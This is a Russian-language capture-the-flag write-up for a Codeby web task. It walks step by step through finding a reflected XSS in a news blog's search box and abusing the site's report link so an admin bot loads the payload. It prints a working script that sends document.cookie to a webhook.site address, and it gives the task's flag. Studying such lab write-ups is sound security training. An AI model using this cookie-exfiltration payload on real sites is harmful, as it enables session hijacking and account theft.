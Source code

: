 <h1 align = "center"> Решение таска ip (http://62.173.140.174:16013/) </h1></br>

## Диагностика сети по этапам проведения атаки 

- [Этап |1| Анализируем всё что дано]
- [Этап |2| Проверка работоспособности]
- [Этап |3| Поиск уязвимости, нахождение флага]
- [Этап |4| Проверка флага]

## Этап |1| Анализируем всё что дано
Заходим на страницу и смотрим:

Открывается блог новостей.

## Этап |2| Проверка работоспособности

Проверяем функционал. Внутри ссылок ничего нет. Значит проверяем поле текста.

## Этап |3| Поиск уязвимости, нахождение флага

Проверка на уязвимость к XSS-атаке. '<script> alert('XSS') </script>' Вводим это в поле поиска.

Нужно получить куки админа. Используем сайт webhook.site и отправляем себе что-нибудь.
<script> location.herf="[https](https://webhook.site/09df34d0-857d-48d1-825d-d9eb06ca4acc)https://webhook.site/09df34d0-857d-48d1-825d-d9eb06ca4acc";</script>
Нет реакции. Находим кнопки репортов. Проверяем как работает.

http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask

Адресная строка. Видим что в качестве репорта отправляется полная ссылка. Убираем публикацию из ссылки, работает, действуем через него.

http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='https://webhook.site/09df34d0-857d-48d1-825d-d9eb06ca4acc/?c='%252bencodeURIComponent(document.cookie)</script>

Вписываем этот скрипт, готово, мы получили куки.

## Этап |4| Проверка флага

CODEBY{r3fl3cted_XSS_expl0it3d}
